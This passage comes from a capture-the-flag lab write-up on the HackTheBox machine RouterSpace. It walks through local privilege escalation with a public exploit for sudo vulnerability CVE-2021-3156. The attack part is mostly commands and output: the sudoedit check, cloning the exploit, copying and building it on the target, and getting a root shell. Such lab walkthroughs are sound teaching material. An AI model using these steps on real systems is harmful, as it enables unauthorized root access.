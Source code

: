     
    
    paul@routerspace:/dev/shm$ sudoedit -s Y
    [sudo] password for paul:
    

#### Exploit

I’ll clone the repo to my host, and follow the instructions to build the
binary:

    
    
    oxdf@hacky$ git clone git@github.com:CptGibbon/CVE-2021-3156.git
    Cloning into 'CVE-2021-3156'...
    remote: Enumerating objects: 13, done.
    remote: Counting objects: 100% (13/13), done.
    remote: Compressing objects: 100% (11/11), done.
    remote: Total 13 (delta 1), reused 5 (delta 0), pack-reused 0
    Receiving objects: 100% (13/13), 4.13 KiB | 4.13 MiB/s, done.
    Resolving deltas: 100% (1/1), done.
    

I’ll `scp` it to RouterSpace:

    
    
    oxdf@hacky$ scp -ri ~/keys/ed25519_gen CVE-2021-3156/ paul@routerspace.htb:/dev/shm/
    README.md                                                            100%  692     7.4KB/s   00:00    
    Makefile                                                             100%  208     2.3KB/s   00:00    
    exploit                                                              100%   16KB  88.2KB/s   00:00    
    x.so.2                                                               100%   14KB 142.9KB/s   00:00    
    description                                                          100%   73     0.7KB/s   00:00    
    index                                                                100%  441     4.7KB/s   00:00
    ...[snip]...
    

I’ll `make` it as indicated in the `README.md`:

    
    
    paul@routerspace:/dev/shm/CVE-2021-3156$ make
    mkdir libnss_x
    cc -O3 -shared -nostdlib -o libnss_x/x.so.2 shellcode.c
    cc -O3 -o exploit exploit.c
    

Now running it returns a root shell:

    
    
    paul@routerspace:/dev/shm/CVE-2021-3156$ ./exploit 
    # id
    uid=0(root) gid=0(root) groups=0(root),1001(paul) 
    

And I can read `root.txt`:

    
    
    # cat root.txt
    0f39f5ce************************
    

[](/2022/07/09/htb-routerspace.html)

